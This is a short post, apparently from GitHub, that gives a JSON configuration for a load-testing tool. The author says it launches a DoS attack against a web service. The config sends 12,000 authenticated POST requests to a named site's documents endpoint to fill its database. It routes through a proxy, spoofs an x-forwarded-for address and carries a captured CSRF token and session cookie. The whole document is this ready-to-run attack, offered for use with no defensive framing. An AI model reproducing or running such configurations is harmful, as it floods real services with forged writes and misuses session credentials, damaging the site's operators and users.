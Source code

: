Here is a config that launches a DOS attack against that web service.  <br/>
The following will write 12000 entries into the DB:
```json
{
  "request_count": 12000,
  "load_type": "linear",
  "duration": 30,
  "output": "stdout",
  "proxy": "http://87.236.233.183:8080",
  "steps": [
    {
      "id": 1,
      "url": "https://www.secretdomain.io/documents",
      "protocol": "https",
      "method": "POST",
      "headers": {
        "accept": "application/json, text/plain, */*",
        "accept-language": "en-US,en;q=0.9,he;q=0.8,ru;q=0.7",
        "cache-control": "no-cache",
        "content-type": "application/json;charset=UTF-8",
        "pragma": "no-cache",
        "sec-ch-ua":
        "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"99\", \"Google Chrome\";v=\"99\"",
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": "\"macOS\"",
        "sec-fetch-dest": "empty",
        "sec-fetch-mode": "cors",
        "sec-fetch-site": "same-origin",
        "x-csrf-token":
        "DB1RRbtvDeKrJCw25X2orqovE5e2YnZgvWpfvCQ6vUXelHdXQJpyZOMxvgy12O9uaymO+nA6fFenWbRUAOPvpw==",
        "cookie":
        "_secretdomain_session=RThhMm5scGhzcXlUMDlUb2w1TGc2bXoxQ3JSTTcxMXcxcmdRZWxDcXVrNnpNVHc3REY0YUNGQll3YjEwZHhUVUlxK1F0Z005a1VrMTVUMzlramFjTHcxUGZOdi9Hd1E3K2h1QVBuREtXODJ3RUZXa3c5NHFMc2kwRzROUXpMV0txVS9ZMytLUVJaUlVhaXZReFVMSGtRPT0tLTJpOEdDZlVPaWpwSHNDTDRVT0RZYVE9PQ%3D%3D--076304873ff53ead16def293db0c4349905d23c7; crisp-client%2Fsession%2F6a4a83f5-2991-4055-9980-307cf3d01be0=session_d69103f0-b733-4275-ba19-f187f5492bbd",
        "Referer": "https://www.secretdomain.io/",
        "Referrer-Policy": "strict-origin-when-cross-origin",
        "x-forwarded-for": "161.129.70.113"
      },
      "payload": "{\"contents\":\"{\\n  \\\"what\\\": \\\"a simple JSON data store\\\",\\n  \\\"why\\\": [\\n    \\\"quick setup\\\",\\n    \\\"easy editing\\\",\\n    \\\"schema validation\\\"\\n  ]\\n}\"}",
      "timeout": 3,
      "sleep": "300-500",
      "others": {
        "keep-alive": true,
        "disableCompression": false,
        "h2": true,
        "disable-redirect": true
      }
    }
  ]
}
```
